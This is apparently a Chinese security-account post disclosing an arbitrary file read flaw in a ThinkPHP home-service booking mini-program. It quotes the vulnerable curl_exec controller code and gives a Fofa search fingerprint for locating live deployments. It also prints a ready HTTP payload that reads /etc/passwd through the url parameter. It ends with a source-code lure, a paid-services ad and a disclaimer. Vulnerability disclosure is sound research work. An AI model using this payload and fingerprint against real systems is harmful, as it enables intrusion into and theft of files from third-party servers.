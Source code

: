 #  【1day】某家政上门预约小程序系统存在前台任意文件读取漏洞   
原创 Mstir  星悦安全   2024-12-19 05:26  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**thinkphp家政上门预约服务小程序家政保洁师傅上门服务小程序上门服务在线派单+安装教程 上门预约服务派单小程序家政小程序同城预约开源代码独立版+安装教程**  
  
**Fofa指纹:"/static/default/wap/css/base.css" && "家政"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5evZO99OT0s3ySemtHxax8eE2dNHLhticSZCQsKgPsFicjc2jyfuHMJgqgjAVcUWicTQrKoPTDrnRvibQ/640?wx_fmt=jpeg&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5evZO99OT0s3ySemtHxax8eqA4OSkVicdC961FokFEsguO6c6X1XHtSWpSDHFpvHgTt07r0Soj6FBw/640?wx_fmt=jpeg&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5evZO99OT0s3ySemtHxax8ezlsq5RxTxubNicVe7NjUuQnxXuC7ybjOkibp5XJzUVBydiarcNr5xUUGg/640?wx_fmt=jpeg&from=appmsg "")  
  
**框架:ThinkPHP 5.1.0 Debug:True**  
## 0x01 漏洞分析&复现  
位于 /weixin/controller/Index.php 控制器的httpRequest方法存在curl_exec函数，且传参url均可控，导致漏洞产生.```
//请求数据public function httpRequest($url,$data = null){  $curl = curl_init();  curl_setopt($curl,CURLOPT_URL,$url);  curl_setopt($curl,CURLOPT_SSL_VERIFYPEER,FALSE);  curl_setopt($curl,CURLOPT_SSL_VERIFYHOST,FALSE);  if(!empty($data)){    curl_setopt($curl,CURLOPT_POST,1);    curl_setopt($curl,CURLOPT_POSTFIELDS,$data);  }  curl_setopt($curl,CURLOPT_RETURNTRANSFER,true);  curl_setopt($curl,CURLOPT_RETURNTRANSFER,1);  $output = curl_exec($curl);  curl_close($curl);  return $output;}
```  
  
Payload:  
  
```
GET /weixin/index/httpRequest?url=file:///etc/passwd HTTP/2Host: 127.0.0.1Cache-Control: max-age=0Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "Windows"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5evZO99OT0s3ySemtHxax8e9KKhA1vIfoicZJZ4VEmibXbWDcHNtm6ZSoR4vNPicxW5japiaI07CZBDTg/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**家政上门源码关注公众号发送 241219 获取!**  
  
  
  
  
  
****  
**承接代码审计，众测，驻场，渗透测试，攻防演练等项目，CNVD证书全网最低价+VX: Lonely3944**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
